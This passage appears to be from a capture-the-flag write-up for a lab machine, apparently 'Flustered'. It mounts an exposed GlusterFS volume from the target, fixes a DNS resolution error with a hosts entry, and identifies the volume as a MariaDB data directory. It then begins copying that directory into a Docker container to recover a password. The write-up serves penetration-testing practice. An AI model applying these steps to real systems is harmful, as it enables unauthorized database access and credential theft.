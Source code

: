
##### Mount vol2
```bash
❯ sudo mount -t glusterfs $IP:/vol2 /mnt
Mount failed. Check the log file  for more details.
```

The log file (`/var/log/glusterfs/mnt.log` or under `/var/log/glusterfs`) shows additional information about the mount failure, which
seems to be caused by a DNS resolution error:

The last line before “Final graph” says “DNS resolution failed on host flustered”.

```bash
[2023-01-24 01:17:22.855068 +0000] E [name.c:267:af_inet_client_get_remote_sockaddr] 0-vol2-client-0: DNS resolution failed on host flustered
Final graph:
+------------------------------------------------------------------------------+
```

```bash
echo "10.129.225.107 flustered.htb flustered" | sudo tee -a /etc/hosts
```

```bash
❯ sudo mount -t glusterfs $IP:/vol2 /mnt
❯ sudo ls -l /mnt
total 122934
-rw-rw---- 1 sshd tss     16384 Oct 26  2021 aria_log.00000001
-rw-rw---- 1 sshd tss        52 Oct 26  2021 aria_log_control
-rw-r--r-- 1 root root        0 Oct 26  2021 debian-10.3.flag
-rw-rw---- 1 sshd tss       998 Jan 29  2022 ib_buffer_pool
-rw-rw---- 1 sshd tss  12582912 Oct 26  2021 ibdata1
-rw-rw---- 1 sshd tss  50331648 Oct 26  2021 ib_logfile0
-rw-rw---- 1 sshd tss  50331648 Oct 26  2021 ib_logfile1
-rw-rw---- 1 sshd tss  12582912 Jan 24 13:18 ibtmp1
-rw-rw---- 1 sshd tss         0 Oct 26  2021 multi-master.info
drwx------ 2 sshd tss      4096 Oct 26  2021 mysql
-rw-rw---- 1 root root       16 Oct 26  2021 mysql_upgrade_info
drwx------ 2 sshd tss      4096 Oct 26  2021 performance_schema
drwx------ 2 sshd tss      4096 Oct 26  2021 squid
-rw-rw---- 1 sshd tss     24576 Jan 24 13:18 tc.log
```

### Enumerate the mnt
Some Googling of the file names in that directly suggest that this is the `/var/lib/mysql` directory, which is where MariaDB (MySQL) stores it’s data. This directory actually has everything I need to recreate the database locally. Althouhg, that's the hard way to retrive the password.

##### Hard way
```
mkdir /tmp/mysql
cp -R /mnt/* /tmp/mysql/
echo -e "[mariadb]\nplugin-load-add = auth_socket.so" > /tmp/socket.cnf
docker run --name mariadb -v /tmp/socket.cnf:/etc/mysql/mariadb.conf.d/socket.cnf -v
/tmp/mysql:/var/lib/mysql -d mariadb:10.3.31
docker exec -ti mariadb mysql
```
